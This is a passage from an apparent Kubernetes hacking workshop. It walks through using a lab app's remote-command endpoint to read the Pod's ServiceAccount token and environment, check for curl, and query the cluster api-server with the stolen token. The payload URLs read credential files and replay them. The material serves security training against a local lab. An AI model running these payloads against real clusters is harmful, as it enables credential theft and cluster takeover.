






# Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 2: Accessing the api-server](#part-2--accessing-the-api-server)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 2: Accessing the api-server

1. Every Kubernetes Pod has a service token by default which is associated with its ServiceAccount.
   By default, this token is auto-mounted into every Pod at the path `var/run/secrets/kubernetes.io/serviceaccount/token`.
   Let's use the RCE to try to print out that token using the `cat` command:
   
   http://localhost/webadmin?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
   


   We now have the Pod token, so we have some credentials to play with. This can be used to help us
   explore other places in the cluster.

   It's also worth noting that even if this was just a directory traversal exploit, much of what we found—including this
   token—could also have been discovered. Even the environment variables are visible via the `/proc`
   file system. For example, printing out the contents of `/proc/self/environ` would
   give us the equivilent of running `env`: http://localhost/webadmin?cmd=cat%20/proc/self/environ
   


2. Now let's see if we have some kind of tooling that I can use to make web calls via my RCE. Let's see if we have `curl`
   available: http://localhost/webadmin?cmd=curl%20https://google.com
    

   Success!


3. Next, lets take all that we've learned and apply it toward getting out of this container. We will use
   curl and the token credential to try to connect to the Kubernetes api-server and ask it for te cluster endpoints. The connection details are as follows:
   * **Host:** the `KUBERNETES_PORT` variable value
   * **URI:** the default namespace "endpoints" API `/api/v1/namespaces/default/endpoints` (it is often open to queries by any client)  
   * **Header:** An `Authorization: Bearer` containing contents of the token file from above
   * **CA Cert:**  The CA certificate which we can assume will be in the default location at the same path as our token
  file and named `ca.crt`. 
   
  The URL to open (replace `10.96.0.1` with your `KUBERNETES_PORT`): http://localhost/webadmin?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20%22Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)%22%20https://10.96.0.1/api/v1/namespaces/default/endpoints

  

  This command succeeds, and notice the section:
  ```yaml
  ...
  "subsets": [
    {
      "addresses" : [
         {
           "ip": "172.19.0.3"
         }
      ],"
  ...
  ```  
  In a real environment, that `ip` would give us the external address for the Kubernetes API server. Because we are
  running in Kind, it won't be this IP address, it will just be exposed on localhost with the same port. This is a
  vulnerability, and has been created by a too permissive policy for the service token. 
  
### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in

#### New info:
* The ServiceAccount and Pod configurations in this application's Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_



#### Timeline of Doom
Updated progress toward total ownership of the target cluster.


---
## Next step
In the [next step](02c-exploit.md), we will try to gain access directly to the external API endpoint and investigate what permissions the
account gives us as well as learning more about the cluster.
